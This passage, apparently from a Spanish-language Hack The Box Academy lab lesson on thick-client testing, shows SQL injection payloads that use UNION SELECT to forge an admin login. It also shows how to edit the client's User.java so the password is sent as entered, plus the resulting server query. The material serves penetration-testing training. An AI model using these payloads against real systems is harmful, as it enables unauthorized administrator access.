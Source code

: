 Es posible crear entradas falsas usando el`SELECT`operador. Ingresemos un nombre de usuario no válido para crear una nueva entrada del usuario.

Código:sql

```sql
MariaDB [userdb]> select * from users where username='test' union select 'admin', 'welcome123';
+----------+-------------+
| username | password    |
+----------+-------------+
| admin    | welcome123  |
+----------+-------------+

```

Del mismo modo, la inyección en el`username`El campo se puede aprovechar para crear una entrada de usuario falsa.

Código:Java

```java
test' UNION SELECT 1,'invaliduser','invalid@a.b','invalidpass','admin

```

De esta manera, la contraseña y el rol asignado pueden controlarse. El siguiente fragmento de código envía la contraseña de texto sin formato ingresado en el formulario. Vamos a modificar el código en`htb/fatty/shared/resources/User.java`Para enviar la contraseña como es de la aplicación del cliente.

Código:Java

```java
public User(int uid, String username, String password, String email, Role role) {
    this.uid = uid;
    this.username = username;
    this.password = password;
    this.email = email;
    this.role = role;
}
public void setPassword(String password) {
    this.password = password;
  }

```

Ahora podemos reconstruir el archivo jar e intentar iniciar sesión usando la carga útil`abc' UNION SELECT 1,'abc','a@b.com','abc','admin`en el`username`campo y el texto aleatorio`abc`en el`password`campo.

![](https://academy.hackthebox.com/storage/modules/113/thick_clients_web/bypass.png)

El servidor eventualmente procesará la siguiente consulta.

Código:sql

```sql
select id,username,email,password,role from users where username='abc' UNION SELECT 1,'abc','a@b.com','abc','admin'

```
